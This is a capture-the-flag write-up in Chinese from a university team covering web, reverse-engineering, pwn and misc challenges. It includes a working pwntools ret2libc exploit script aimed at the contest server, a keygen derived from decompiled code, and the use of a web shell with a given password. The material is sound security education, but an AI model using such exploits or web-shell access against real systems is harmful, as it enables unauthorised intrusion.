




# NSCTF 四校联合CTF邀请赛WriteUp

!!! info
    队名：OK

    学校：西北工业大学

    成员：贺宇超、蔡海洋、高子奇

## Web

### sign in

使用中国蚁剑进行连接，密码是x，成功连接，然后到根目录发现flag.txt文件，进去发现flag





## reverse

### TrackMe

拉入IDA进行分析

```c title="main函数伪代码" hl_lines="34-38"
int __cdecl main(int argc, const char **argv, const char **envp)
{
    int v3;             // ebx
    unsigned int v4;    // ecx
    char v5;            // dl
    char v7[29];        // [esp+Ch] [ebp-160h] BYREF
    __int16 v8;         // [esp+29h] [ebp-143h]
    char v9;            // [esp+2Bh] [ebp-141h]
    char v10[29];       // [esp+2Ch] [ebp-140h] BYREF
    __int16 v11;        // [esp+49h] [ebp-123h]
    char v12;           // [esp+4Bh] [ebp-121h]
    char v13[29];       // [esp+4Ch] [ebp-120h] BYREF
    __int16 v14;        // [esp+69h] [ebp-103h]
    char v15;           // [esp+6Bh] [ebp-101h]
    CHAR Filename[256]; // [esp+6Ch] [ebp-100h] BYREF
    if (argc == 2 && !strcmp(argv[1], aLogon))
    {
        memset(v7, 0, sizeof(v7));
        v8 = 0;
        v9 = 0;
        memset(v13, 0, sizeof(v13));
        v14 = 0;
        v15 = 0;
        memset(v10, 0, sizeof(v10));
        v11 = 0;
        v12 = 0;
        printf("please input username:");
        scanf("%s", v7);
        v3 = strlen(v7);
        if (v3 < 5)
            printf("Username must be at least five characters!\n");
        printf("please input password:");
        scanf("%s", v13);
        for (; v3 >= 1; v10[v4] = v5)
        {
            v4 = strlen(v7) - v3;
            v5 = v7[v4] - v3--;
        }
        if (!strcmp(v13, v10))
            return printf("Logon Success!\n");
        else
            return printf("Logon Failed!\n");
    }
    else
    {
        GetModuleFileNameA(0, Filename, 0x100u);
        printf("Usage:\r\n\t%s -Logon\n", Filename);
        return system(Command);
    }
}
```


经过分析写出解密脚本：

```cpp
#include <bits/stdc++.h>
using namespace std;
int main()
{
    char name[9] = "nsfocus";   //用户名(1)
    int L = 7;
    for (int i = 0; i < 7; i++)
    {
        printf("%c", name[i] - L);
        L--;
    }
}
```

1. 题干给出的用户名是nsfocus

结果是：**gmak`sr**

## pwn

### ret2libc

经过分析（在注释里面）



写出脚本：

```python title="exp"
from pwn import *
import sgtlibc #最开始用的是LibcSearcher，但是各种版本都试过了，搜不到正确的版本，换用了这个

context.log_level="debug"
p = remote('node.nsctf.cn',55446)#node.nsctf.cn:55446
elf=ELF("ret2libc")

main_addr = elf.sym['main']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi_ret=0x0000000000400763
payload =b'a'*(0x40+8)+ p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) +
p64(main_addr)
#给puts函数传入puts的got 得到真实地址 再跳转回main函数便于再次溢出

p.sendlineafter("leave whatever you want",payload)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
print(hex(puts_addr))

s = sgtlibc.Searcher()
s.add_condition('puts',puts_addr)#利用puts函数真实地址搜索libc

s.dump(db_index=0) # search libc , if returns multi-result ,default useindex-0's result
system = s.get_address(sgtlibc.s_system)
binsh = s.get_address(sgtlibc.s_binsh)
payload2 = b'a' * 0x48 +p64(pop_rdi_ret) + p64(binsh)+p64(system)
p.sendlineafter("leave whatever you want",payload2)
p.interactive()
```

## misc

### 流量包

使用wireshark打开，找到含有login的http报文，发现密码

